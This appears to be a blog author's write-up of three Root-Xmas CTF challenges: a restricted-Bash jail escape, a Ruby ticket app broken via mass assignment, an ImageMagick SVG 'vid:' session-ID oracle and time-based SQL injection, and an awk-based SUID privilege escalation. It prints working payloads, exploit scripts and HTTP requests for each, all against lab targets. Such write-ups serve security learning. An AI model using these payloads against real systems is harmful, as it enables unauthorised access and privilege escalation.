

Once more, Root-Xmas CTF was back this year, and once more, it was the highlight of the month 🎀 This blog post details three of my challenges’ solutions for the Days 8, 11 and 18, including a Bash jail, a Ruby web app and an awk privesc.
To speak my heart, I really learned a lot during this CTF as the web aficionada that I am had to get out of her comfort zone and really tryhard reverse, hardware, crypto, pwn, etc. In fact, from each challenge of the twenty which I validated, I did gain not only a flag, but also several new insights.
Kudos to the entire staff 🤍 One could really feel the creativity and care that were put in each of the challenges.
Anyway, that was a long intro, so let’s get started.

Day 8 - Merry Christmas | You’re trapped
Tags: Medium, misc, bash, jail
Description :
The Grinch has kidnapped Santa’s Chief Management Officer Elf, a key figure responsible for coordinating present delivery all around the world.
We need to get him out as soon as possible!
This is urgent, please help us set him free from the the Grinch’s freezing jail!! The success of Christmas depends on it.
We are given the following Bash jail script which we need to escape and read the flag :
#!/bin/bash
PATH=$(/usr/bin/getconf PATH || /bin/kill $$)
#######################################################
# |>>> |>>> #
# | | #
# _ _|_ _ _ _|_ _ #
# |;|_|;|_|;| |;|_|;|_|;| #
# \\.. / \\.. / #
# \\.. / \\.. / #
# \\.. / \\.. / #
# |||| |||| #
# |||| |||| #
# ______________________________________________ #
# /______________________________________________/| #
# | | | #
# | | | | | | | | | | | | #
# | |___|___|___|___|___|___|___|___| | | #
# | | | #
# | "Help me please..." | | #
# |______________________________________________|/ #
#######################################################
function check_input() {
if [[ $1 =~ '..' || $1 =~ './' || $1 =~ [[:space:]]'/' ]]
then
return 0
fi
if [[ $1 =~ [[:alnum:][:space:]] ]];
then
return 0
fi
if [[ $1 =~ '<' || $1 =~ '>' ]];
then
return 0
fi
return 1
}
# Todo remove this shit... it can be retrieved by the player ?! >_<
flag=`cat "/flag.txt"`
while :
do
input=""
echo -n "Enter the input: "
read input
if check_input "$input" #&& false
then
echo -e '\033[0;31mRestricted characters has been used\033[0m'
else
output=`env -i PATH=$HOME/bin/ /bin/bash --noprofile --norc --restricted -c "$input" < /dev/null`
echo "Command executed"
fi
done
In the main loop, our input is read from standard input and :
- If
check_input "$input"returns true (0), the input is rejected. - If it returns false (
1), the input is executed inside a restricted Bash environment:
env -i PATH=$HOME/bin/ /bin/bash --noprofile --norc --restricted -c "$input" < /dev/null
One key restriction of --restricted Bash is that it forbids using / in command names.
Looking at check_input(), the input is rejected if:
- It contains
..,./, or a space immediately followed by/ - It contains any alphanumeric character or any space
- It contains
<or>
If any of these conditions are met, the input is considered invalid. This leaves us with the following allowed character set:
! " # $ % & ' ( ) * + , - . : ; = ? @ [ \ ] ^ _ ` { | } ~
Our flag is in /flag.txt, so we need to read this file using only the allowed characters, while also bypassing the restrictions imposed by restricted Bash.
Although the character set is extremely limited, Bash still supports variable assignment and expansion, so let’s leverage that to flag! Our goal is to construct the payload cat /flag.txt. Furthermore, since we only see error output, we need to intentionally trigger an error so that the result of cat /flag.txt is displayed.
We have the binary /bin/cat in /root/bin/ so we can use it.
We use __=(~/???/???) to reference /bin/cat and we need to extract the cat portion from it.
We can create 0 with ___=$[] (empty arithmetic expression that defaults to 0) which allows us to index and extract the content of the string.
Then, using bash parameter expansion and pattern matching, we extract the cat part, by extracting the last portion after the last /. Let’s test this :
Enter the input: __=(~/???/???);___=$[];__="${__[$___]}";___="${__##*/}";$___?
/bin/bash: line 1: cat?: command not found
This input initializes an array referencing /bin/cat, creates an index with value 0, and then extracts the cat string from the array. Finally, it extracts the last portion of the string that follows the last /. (We add the ? to trigger an error to be able to see the output). In a nutshell, our cat can be written as :
__=(~/???/???);___=$[];__="${__[$___]}";___="${__##*/}";$___
We reference /flag.txt using the same procedure :
__=(/????.???);___=$[];__="${__[$___]}";$__
Finally, to force an error, we can simply evaluate the result of cat /flag.txt as a bash command and since we cannot use spaces, we run the command using ${cat,/flag.txt}.
Final payload:
Enter the input: __=(~/???/???);___=$[];__="${__[$___]}";___="${__##*/}";$({$___,/????.???})
/bin/bash: line 1: RM{0mG_Y3S_1_kn3w_y0u_w0uld_h3lp_m3_w3_r3_601n6_70_s4ve_CH1stM4s_70637h3r_TY_S0_MUCH_FOR_s4v1ngME<<<3}: command not found
Command executed
Day 11 - Ticket Tracker
Tags: Hard, web, Ruby
Description :
Take Santa’s sleigh to navigate through the depths of Ruby, where you will find the flag.
In this challenge, we are given a web application where we can create tickets and upload attachments (images or PDFs) for which thumbnails will be generated. We can see from the source files that our flag is the admin password so we need to extract that somehow, maybe an SQL injection? And while looking through the files we observe the following code :
if params[:sort].present?
@tickets = @tickets.order(Arel.sql(params[:sort]))
else
@tickets = @tickets.order(created_at: :desc)
end
This is textbook SQL injection in the sort parameter. Nevertheless, to be able to exploit it, we first need to access the admin panel. Let’s try to achieve that.
I will not detail everything as the author’s writeup explains well the entirety of the challenge, Nevertheless, I will focus on what I did differently, so kinda the unintended solution ^^
For the first part, I did as the original writeup : I exploited the mass assignment to create an account validated by the admin using the payload :
{"user":
{"email":"test@test",
"password":"test",
"name":"test",
"validated": true,
"role":"admin"
}}
Even though our role is admin, our user ID is 2, and we know that the admin panel is only accessible for the user with the first ID given the code snippet below :
def require_admin
unless @current_user && @current_user.id == 1
render json: { error: 'Access denied.' }, status: 403
end
end
Hence, our next goal is to takeover the admin account. Given the following code, the session cookie of each user is written into the file /tmp/sess_<user_session_id>.
require 'securerandom'
require 'json'
class CustomSessionStore
SESSION_DIR = '/tmp'
class << self
def create_session(user_id)
session_id = SecureRandom.hex(16)
session_data = {
user_id: user_id,
created_at: Time.now.to_i
}
session_file = File.join(SESSION_DIR, "sess_#{session_id}")
File.open(session_file, 'wb') do |file|
file.write(Marshal.dump(session_data))
end
session_id
end
def load_session(session_id)
return nil unless session_id
session_file = File.join(SESSION_DIR, "sess_#{session_id}")
return nil unless File.exist?(session_file)
begin
File.open(session_file, 'rb') do |file|
Marshal.load(file.read)
end
rescue => e
Rails.logger.error "Session load error: #{e.message}"
nil
end
end
def destroy_session(session_id)
return unless session_id
session_file = File.join(SESSION_DIR, "sess_#{session_id}")
File.delete(session_file) if File.exist?(session_file)
end
def get_user_from_session(session_id)
session_data = load_session(session_id)
return nil unless session_data
User.find_by(id: session_data[:user_id])
end
end
end
Hence, if we manage to obtain the admin’s session_id, we will gain access to their admin account. Let’s try to achieve this using the tickets which we can create.
After digging a bit more into the challenge source code, I did not see a clear vulnerability that we could use. However, given that we can upload files, maybe we can find a way to exploit that feature especially with the custom thumbnail generation function.
With only PDFs and images, we cannot do much but maybe we can do more?
After reading this great Synacktiv post, I first tried using the PDF/PostScript polyglot approach, but did not manage to make it work correctly as my PostScript was not being executed.
Therefore, I focused on SVGs as, in my previous attempt, I succeeded creating SVGs that were accepted (considered as PDFs) due to the parser confusion. After several hours of trying different payloads, I found this article that underlines the VID format which enables filename expansions and I quote :
The call of ExpandFilenames means that the VID scheme accepts masks, and constructs filepaths using them.
Therefore, by using the vid: scheme, we can include our temporary file with the MSL content without knowing its name
This was a turning point. I first tried to include the session file content in the SVG as an MSL as the article suggested but that was in vain (and that makes sense as our session file is not a valid MSL) :
<SVG height="100" width="100"><!--
%PDF-1.3
-->
<rect x="0" y="0" width="1000" height="1000" fill="green"/>
<image xlink:href="vid:msl:/tmp/sess_*" x="0" y="0" width="100" height="100"/>
</SVG>
Then, after several attempts, I thought : if we can expand filenames using the vid format in a controlled way, we could guess the admin session filename character by character, in other words, we can turn this into a kind of SVG oracle ^^
Nevertheless, we still need to observe a difference in behavior depending on whether the targeted file exists or not to leverage that.
I changed msl with text and that is when magic (or let’s say imagick x) ) happened with this payload :
<SVG height="100" width="100"><!--
%PDF-1.3
-->
<rect x="0" y="0" width="1000" height="1000" fill="green"/>
<image xlink:href="vid:text:/tmp/sess_*" x="0" y="0" width="100" height="100"/>
</SVG>
the thumbnail was correctly generated.

Actually, the thumbnail was correctly generated when the file existed, whereas the thumbnail_path is null when the file does not, and that is exactly the kind of behavior we need for our oracle.

By exploiting the different behavior in the two cases, we were able to extract the admin session ID character by character : Given the session ID length, we iterated over the characters and checked for each one if the thumbnail is generated correctly. Once it was, we consider that character valid and iterate over the next one and so on.
Once logged in as admin, the final step was exploiting the SQL injection.
By injecting a time-based payload into the sort parameter, we can observe response delays and hence, extract the admin password (Since this is a time-based SQLi, using dichotomy was a lifesaver as well!)
GET /api/admin/tickets?search=&sort=title%20ASC,%20(select%20case%20when%20substr(password,1,1)='R'%20then%201337=LIKE('ABCDEFG',UPPER(HEX(RANDOMBLOB(1000000000/2))))%20else%201%20end%20FROM%20users%20WHERE%20id=1);-- HTTP/1.1
Host: localhost:10000
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:140.0) Gecko/20100101 Firefox/140.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: http://localhost:10000/admin
Content-Type: application/json
Connection: close
Cookie: firefox-icon-notification-confirm=true; session_id=b73e15c2f9998d0e7b6751f64a9316e3
Priority: u=0
Finally, we obtained our flag: RM{RubY_1s_f1nally_N0t_My_l4nguage}
Day 18 - Hate your job? - Initial & Revenge
Tags: Medium, System
Description :
Your life at work is falling apart. Your colleagues gave you socks for Secret Santa… used ones. Your manager only talks to you to forward bugs… and blame you for them. And as a final holiday gift, you’ve been assigned to maintain “VM Checker”, a duct-taped bash script that even interns refuse to touch.
But it technically works
This Christmas, you’ve had enough! Become root. Wreak havoc. And finally earn the respect you’ve been denied all year. Or at least, find the flag…
We are given the following Bash script:
#!/bin/bash
# I'm so sorry to write this shit code ... I'm not a good developer.
# If you try to fix it, you'll probably break something else.
# Please increment the time of hours wasted on this project.
# Time: 89 hours
PATH=$(/usr/bin/getconf PATH 2>/dev/null || /bin/kill $$)
if [[ "$(pwd)" != "/home/user/vmchecker" ]]; then
echo "Error: you must run this script from /challenge"
exit 1
fi
while true; do
echo -n "Enter the input: "
read -r input
case "$input" in
1)
# This part is totaly insecure and vulnerable to bypass. fix it please.
i=0
for p in /proc/[0-9]*; do
name=$(tr '\0' ' ' < "$p/cmdline" | sed 's/ *$//')
if [[ -z "$name" ]]; then
echo "Error: process $p has no name"
i=$((i+1))
continue
fi
# Luckily it's protected, otherwise Benjamin, you're fired.
if [[ "$name" == *['*''/''(''{''['' ''-''=''s''h']* ]]; then
echo "Error: unsafe process name detected. for process $p"
i=$((i+1))
continue
fi
awk "$name" "$p/status" < /dev/null
if [[ $? -ne 0 ]]; then
echo "Error: suspicious mapping detected. for process $p"
i=$((i+1))
continue
fi
done
if [[ $i -eq 0 ]]; then
echo "[-] no unsafe process name or suspicious mapping detected"
else
echo "[-] $i unsafe process name or suspicious mapping detected. Check before push in production"
fi
;;
2)
# Benjamin can you please fix the fucking code ... I SPAMMED YOU
# I'm not sure if you're a genius or a dumbass, but you're definitely not a good developer.
# You're a fucking idiot. Remove the option 2 or make it more secure.
echo "cleaning up..."
rm -rf /tmp/proc_*
for p in /proc/[0-9]*; do
cgroup="$p/cgroup"
maps=$(awk "$cgroup" "$p/maps" &> /dev/null)
if [[ $? -ne 0 ]]; then
/bin/bash -c "echo 'Error: cgroup not found for cgroup: $cgroup' > /dev/null 2>&1" < /dev/null
continue
fi
done
echo "[-] cleaning up done"
;;
3)
# Nice dead code man ... you're a fucking idiot.
;;
*)
echo "Invalid input"
;;
esac
done
This script is executed as SUID root using a wrapper binary.
The main script logic is the following :
- It enforces execution from
/home/user/vmchecker - It provides three options (actually two):
-
Option 1 : it iterates over
/proc/[pid]and reads each process command line, then, after applying a blacklist filter on process names, it passes the process name directly as an argument toawkcommand. -
Option 2 : it attempts to clean temporary files matching
/tmp/proc_*, then iterates over all running processes in/proc. For each process, it invokesawk, using the process’scgroupfile path as the awk program and the process’s maps file as input, redirecting all output to/dev/null. If the awk invocation fails (non-zero exit code), the script executes a subshell using/bin/bash -cto print an error message, while suppressing both stdout and stderr. -
Option 3 : Dead code so nothing much
-
Let’s also note that we cannot create any file in /home/user/vmchecker as it is owned by root and that our flag is stored with a random filename in the directory /root/smell_like_a_flag/ as showcased in the Dockerfile :
RUN mv /root/flag.txt /root/smell_like_a_flag/flag$(head -c 16 /dev/urandom | base64 | tr -dc 'a-zA-Z0-9' | head -c 32)
RUN chown root:root /home/user/vmchecker && \
chmod 740 -R /root
We know that we can control the command line (argv[0]) of processes which we create.
On the one side, in option 1, this value is passed directly to awk as the program argument (awk <our_process_cmdline> <file>), which we can maybe exploit to achieve an awk injection.
Nevertheless, there is a very strict blacklist that blocks the following characters which are usually essential for meaningful awk programs : * / ( { [ <space> - = s h
On the flip side, for the second option, injecting into awk would require influencing a process’s cgroup path. This would mean either writing to /proc or modifying cgroups, which generally requires root privileges or not feasible, afaik. Therefore, this approach is quite harder.
Well, these are only first intuitions, let’s now dive into the actual exploitation.
Initial Challenge
The wrapper of the initial challenge is the following :
#include <unistd.h>
#include <stdlib.h>
#include <stdio.h>
int main(int argc, char **argv)
{
if (setgroups(0, NULL) != 0) {
perror("setgroups");
return 1;
}
if (setresgid(0, 0, 0) != 0) {
perror("setresgid");
return 1;
}
if (setresuid(0, 0, 0) != 0) {
perror("setresuid");
return 1;
}
system("/home/user/vmchecker/pwnme.sh");
return 0;
}
Here, the SUID binary uses system() to execute the script and since system() inherits environment variables, we can influence the latter.
In particular, we can exploit the AWKPATH environment variable to force awk to load scripts from a directory that we control. Then, we can create a process in a way that the awk command runs files from that directory, no characters blacklist limitations ^^ Let’s do that.
We define AWKPATH as /tmp and create an awk script that reads the flag and writes it to /tmp/flag.txt. Since we can control the command line of a process, we can use it to inject an @include directive in the awk command which becomes :
export AWKPATH=/tmp
# create awk script
cat > /tmp/t.awk << 'EOF'
BEGIN{
system("cat /root/smell_like_a_flag/flag* > /tmp/flag.txt")
}
EOF
# set awk payload
payload="@include\"t.awk\""
cd /tmp
# create pauser
cat > pauser.c << 'EOF'
#include <unistd.h>
int main() { pause(); return 0; }
EOF
gcc -o pauser pauser.c
# run pauser with payload as argv[0]
exec -a "$payload" ./pauser &
cd /home/user/vmchecker
./pwnme
[1] 30
Enter the input: 1
Error: unsafe process name detected. for process /proc/1
Error: unsafe process name detected. for process /proc/13
Error: unsafe process name detected. for process /proc/19
Error: unsafe process name detected. for process /proc/20
Error: unsafe process name detected. for process /proc/31
Error: unsafe process name detected. for process /proc/32
Error: unsafe process name detected. for process /proc/33
[-] 7 unsafe process name or suspicious mapping detected. Check before push in production
At this point, the flag is written to /tmp/flag.txt, and we can read it :
user@hate-your-job:~/vmchecker$ ls /tmp/
flag.txt pauser pauser.c t.awk
user@hate-your-job:~/vmchecker$ cat /tmp/flag.txt
RM{You_h4te_y0ur_j0b_but_s3cr3t_s4nt4_g4v3_y0u_socks_for_Chr1stmas_n0w_y0u_f33l_b3tt3r_y0u_w1ll_f1nd_a_n3w_j0b_n3xt_y34r}
Revenge
Below is the wrapper for the revenge challenge:
#define _GNU_SOURCE
#include <grp.h>
#include <stdlib.h>
#include <stdio.h>
#include <unistd.h>
int main(int argc, char **argv)
{
if (setgroups(0, NULL) != 0) {
perror("setgroups");
return 1;
}
if (setresgid(0, 0, 0) != 0) {
perror("setresgid");
return 1;
}
if (setresuid(0, 0, 0) != 0) {
perror("setresuid");
return 1;
}
char *argv_[] = { "pwnme.sh", NULL };
char *envp[] = { NULL };
execve("/home/user/vmchecker/pwnme.sh", argv_, envp);
return 0;
}
This time, the challenge fixes the vulnerability by using execve() with a clean environment, which prevents AWKPATH injection and completely breaks the initial exploit.
Now, it is us against awk and we know that in our process name :
- We cannot use spaces, so no
BEGIN..END. - We cannot use parentheses, so no
system(). - We cannot use curly braces
{}either.
After digging into this GNU awk documentation, I learned that it is possible to execute commands with awk ""<command>" | getline" <file>
In our case, this allows us to run a command using awk "\"cmd\"|getline" <file> and hence, run commands as root. All we need now is to cat the flag file. However, there is still one issue, we cannot use either s or h, nor / . To bypass that, we can use hex encoding for the blacklisted characters.
Finally, I used the following commands to craft the final payload.
cd /tmp
# create file with our payload
cat > payload << 'EOF'
cat /root/smell_like_a_flag/flag*
EOF
# create pauser
cat > pauser.c << 'EOF'
#include <unistd.h>
int main() { pause(); return 0; }
EOF
gcc -o pauser pauser.c
# set awk payload
payload="\"cat<'\x2ftmp\x2fpayload'|'\x73\x68'\"|getline"
# run pauser with payload as argv[0]
exec -a "$payload" ./pauser &
cd /home/user/vmchecker
./pwnme
[1] 30
Enter the input: 1
Error: unsafe process name detected. for process /proc/1
Error: unsafe process name detected. for process /proc/13
Error: unsafe process name detected. for process /proc/19
Error: unsafe process name detected. for process /proc/20
RM{0ops_th3_c0de_w4s_3v3n_w0rse_th4n_3xp3cted_n0w_y0u_r3ally_n33d_t0_f1nd_a_n3w_j0b}
Error: unsafe process name detected. for process /proc/31
[-] 5 unsafe process name or suspicious mapping detected. Check before push in production
And voila, flagged ^^